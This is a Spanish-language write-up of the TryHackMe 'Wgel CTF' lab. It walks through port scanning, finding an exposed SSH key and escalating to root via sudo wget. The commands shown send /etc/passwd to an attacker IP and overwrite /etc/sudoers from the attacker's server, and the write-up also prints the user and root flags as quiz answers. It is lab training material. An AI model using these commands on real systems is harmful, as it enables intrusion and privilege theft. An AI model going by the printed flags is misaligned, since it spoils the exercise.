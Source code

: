 # Máquina Wgel CTF

Dificultad --> Facil

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Wgel CTF**

'

[![portada.jpg](https://i.postimg.cc/gJg4pPH4/portada.jpg)](https://postimg.cc/DJb1QHDb)


## 1.Reconocmiento

Realizamos un escaneo de puertos con la herramienta Nmap para verificar los puertos abiertos

[![reconocimiento.jpg](https://i.postimg.cc/rsbJdCbr/reconocimiento.jpg)](https://postimg.cc/8fRW9WTp)

[![reconocimiento1.jpg](https://i.postimg.cc/sf0K0sXg/reconocimiento1.jpg)](https://postimg.cc/t7Whs0WK)


### Resumen de la Información Obtenida

|IP            | Sistema OPerativo | Puertos/Servicios           | 
|:-----------: |:-----------------:| :--------------------------:| 
| 10.10.12.128 |  Linux            | 22 OpenSSH 7.2p2            |
|              |                   | 80 http Apache httpd 2.4.18 |


## 2. Análisis de Vulnerabilidades / Debilidades 🔍


Al tener el puerto 80 abierto, abrimos la dirección IP en el navegador e inspeccionamos la pagina. Conseguimos un posible usuario llamado jessie

![image](https://github.com/user-attachments/assets/aa660569-5d0c-4e79-abe7-873fed88ec9b)


Realizamos un fuzzing

![image](https://github.com/user-attachments/assets/f014751c-fc9f-4d1d-8686-3933ff4a2930)


![image](https://github.com/user-attachments/assets/f9e6de5f-ccaa-4236-b267-ab970ce4783f)

Realizamos otro fuzzing con el directorio /sistemap


![image](https://github.com/user-attachments/assets/d0c30ec0-c906-4165-beed-d93abfbcd312)


En el directorio /.ssh conseguimos una llave ssh la cual nos podrá permitir conectarnos. 

Descargamos el archivo y le damos permisos 600

![image](https://github.com/user-attachments/assets/b6ae4dc7-ad66-4eb1-8a45-ff3e4198f2c5)


## 3. Explotación 💥


Ahora nos conectamos por ssh utilizando el usuario jessie y la llave id_rsa

![image](https://github.com/user-attachments/assets/a20ac65c-0dc2-4b4d-a6e7-aa5dd9b44e05)


Una vez adentro nos vamos al directorio documents y encontramos la primera bandera 🚩

057c67131c3d5e42dd5cd3075b198ff6


![image](https://github.com/user-attachments/assets/5f71acc8-a817-49f9-9d11-9c2ae0447a3b)


## 4. Escalación de privilegios 🧗


Ahora vamos a proceder a escalar privilegios, ejecutando sudo -l encontramos que wget se puede ejecutar como root sin ninguna password


![image](https://github.com/user-attachments/assets/fbdec6f7-ac25-42fb-ad73-fe70c9d16075)


Buscamos por google como escalar privilegios a través de wget


![image](https://github.com/user-attachments/assets/126da625-beee-4e5a-86da-ed305e66ba31)


Levantamos un netcat en nuestra maquina y ejecutamos el siguiente comando en la máquina victima

    sudo /usr/bin/wget –post-file=/etc/passwd “IP ATACANTE”

![image](https://github.com/user-attachments/assets/638a3e41-cabf-4f28-86da-af12231d41df)


Mientras tanto en nuestra máquina recibimos un archivo


![image](https://github.com/user-attachments/assets/8d380e64-a9a6-4e81-a415-80a86d0f8ef9)


Copiamos toda esta información en una archivo que se va llamar sudoers

![image](https://github.com/user-attachments/assets/b20b7169-1352-4701-b696-ffd3f9a852c2)


Editamos la ultima parte donde sustituimos el binario wget por /bin/bash y así cuando se ejecute se nos creara una shell


![image](https://github.com/user-attachments/assets/995ee000-7cec-465a-ab5e-f02a3eaa6adf)


Volvemos activar un servidor http en nuestra máquina para poder descargar de vuelta el archivo en la máquina victima y ejecutamos el siguiente comando en la máquina victima

    sudo /usr/bin/wget http://10.11.86.141:8000/sudoers -O /etc/sudoers

![image](https://github.com/user-attachments/assets/4061e296-3571-4b28-acb8-9e44cef2070a)


Una vez descargado el archivo modificado en la máquina victima procedemos a ejecutar el siguiente comando

    sudo /bin/bash

Y tenemos acceso root


![image](https://github.com/user-attachments/assets/c48e927d-25b5-40f9-be7f-636086ee8ebb)


Ahora buscamos la siguiente bandera 🚩 en el directorio root

b1b968b37519ad1daa6408188649263d

![image](https://github.com/user-attachments/assets/d8779a3e-fba2-44b7-b55b-0176355f6a61)


## 5.Banderas 🏁

|user.txt | 057c67131c3d5e42dd5cd3075b198ff6  |
|:-------:|:---------------------------------:|
|root.txt | b1b968b37519ad1daa6408188649263d  |


## 6.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 


- User flag

057c67131c3d5e42dd5cd3075b198ff6

- Root flag

b1b968b37519ad1daa6408188649263d





























































































